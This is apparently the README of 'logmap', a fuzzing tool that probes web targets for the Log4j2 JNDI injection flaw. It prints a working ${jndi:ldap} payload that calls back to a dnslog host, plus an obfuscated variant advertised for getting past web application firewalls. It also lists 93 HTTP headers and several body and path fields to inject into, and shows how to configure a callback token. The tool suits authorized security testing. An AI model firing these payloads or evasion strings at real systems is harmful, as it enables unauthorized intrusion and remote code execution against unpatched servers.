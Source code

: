 # logmap - Log4j2 jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line [#429](https://github.com/zhzyker/logmap/blob/main/logmap.py#L429) in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

The default payload is `${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//DOMAIN/xxxxxx}` Use `-w` or `-waf` to obfuscate the payload to bypass waf, it looks like:  
 `${${zod:as:-j}ndi:ldap:${MOH7P:-/}/${jUqr1:dlhUT:zX:Mu:rXx:-9}b71${6r3c:E8ExQh:a:iqML:-a}${jLR:s6xE:-7}${j:zzb:-3}d8${f:CF:DpXSA:-0}${7:2:yM:LnbSk:-1}c3199${4tPUvE:fj7:6K:xpqPQc:rCnYQB:-1}${G:Q:SET9R:u:9t0cc1:-1}${cLF:kENZON:e:p6f:-9}${y:i:abgu0:2cb:-3}6${35aUvK:40sxe:PaVK:cR:-d}${ysVe:byc:e:5nvP:9yVRko:-3}${Cm:DLU:-c}3f0b${iiuZKY:taWD:-4}${B:VK3:3BWv:L:-4}${KA6:GX:xxVWZg:-3}5.${6E50:-f}${iNN4:Ol:XLrqD:-3}${3Fh:T6:-6}e4${IAyoy:-d}${hMZgt:bmBCp9:bY6ofD:KR:-e}${6Ny3E:-b}.${K:Q:-d}n${FLlWGk:-s}.14${8M:-3}${W0u:LA5Z:N:-3}${t5FH:-.}e${GL:x0L72g:bqf9:6:pRQp:-u}${VIq:V:-.}${r:zFcvb:7hqmx:HTGO8:-o}r${n1ZHSo:w:-g}./Efti${Q3:-G}1}`   

This is just a jndi injection fuzz tool, rce or others need yourself  

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  -w, --waf             Obfuscate the payload and bypass waf
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit
```

# Config  
There are currently 93 fuzz headers  
```
Accept
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-ATT-DeviceId
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
